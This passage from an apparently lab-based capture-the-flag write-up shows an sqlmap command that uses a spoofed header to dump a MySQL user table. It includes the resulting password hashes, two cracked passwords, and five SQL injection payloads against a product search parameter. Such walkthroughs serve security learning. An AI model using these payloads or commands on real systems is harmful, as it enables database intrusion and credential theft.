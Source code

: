 ```
| product_category                      |
| product_pack                          |
+---------------------------------------+
```

We can dump users credentials stored in table `user` from database `mysql`.

```
$ sqlmap -u http://10.10.10.167/search_products.php --method POST -p productName --data 'productName=toto' -H 'X-Forwarded-For: 192.168.4.28' -D mysql -T user --dump -C User,Password

+---------+-------------------------------------------+
| User    | Password                                  |
+---------+-------------------------------------------+
| hector  | *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D |
| manager | *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA |
| root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 |
| root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 |
| root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 |
| root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 |
+---------+-------------------------------------------+
```

Great, [sqlmap][sqlmap] was able to crack 2 hashes with it's embedded automatic
bruteforce:

- `manager` / `l3tm3!n`
- `hector` / `l33th4x0rhector`

For your information here are the various methods [sqlmap][sqlmap] was able
to exploit:

```
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: productName=-7611' OR 8249=8249#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=toto' AND (SELECT 1413 FROM(SELECT COUNT(*),CONCAT(0x7178717671,(SELECT (ELT(1413=1413,1))),0x7176786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- dkpS

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: productName=toto';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=toto' AND (SELECT 7102 FROM (SELECT(SLEEP(5)))ETMY)-- bIbM

    Type: UNION query
    Title: MySQL UNION query (NULL) - 6 columns
    Payload: productName=toto' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x7178717671,0x5665716b58786a4955776773767048694661436950414263626c756b56717243616f6d59796b4f66,0x7176786a71),NULL#
```
